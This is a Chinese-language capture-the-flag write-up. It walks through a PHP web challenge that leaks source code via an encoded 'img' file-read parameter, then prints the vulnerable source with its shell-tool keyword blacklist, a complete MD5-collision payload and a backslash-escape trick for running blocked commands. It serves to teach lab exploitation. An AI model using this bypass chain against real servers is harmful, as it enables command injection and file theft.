







本文为记录个人信安小白的刷题路程，大佬勿喷，也同时希望文章能对您有所帮助
打开靶机，注意到URL有两个GET传参img和cmd，

我们先对img参数进行解码，
TXpVek5UTTFNbVUzTURabE5qYz0base64解码MzUzNTM1MmU3MDZlNjc=，
MzUzNTM1MmU3MDZlNjc=base64解码3535352e706e67，
3535352e706e6716进制解码555.png，
竟然是png文件，那通过img参数可不可以读取其他文件呢，
index.php16进制编码696e6465782e706870，
696e6465782e706870base64编码Njk2ZTY0NjU3ODJlNzA2ODcw，
Njk2ZTY0NjU3ODJlNzA2ODcwbase64编码TmprMlpUWTBOalUzT0RKbE56QTJPRGN3，
传入?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3，


将img表情里面base64后面的字段进行base64解码，

获得源码，进行代码审计，
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
| <?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd']))
header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));
$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
echo '<img src ="./ctf3.jpeg">';
die("xixi～ no flag");
} else {
$txt = base64_encode(file_get_contents($file));
echo "<img src='data:image/gif;base64," . $txt . "'></img>";
echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
echo("forbid ~");
echo "<br>";
} else {
if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
echo `$cmd`;
} else {
echo ("md5 is funny ~");
}
}
?>
|
我们需要绕过两个点，
1.md5绕过，有一个典型的payload绕过上面检查，
1
2
| a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
|
2.绕过关键词检查，可以使用转义符\进行绕过，例如l\s，c\at，

看看根目录/下，


获得flag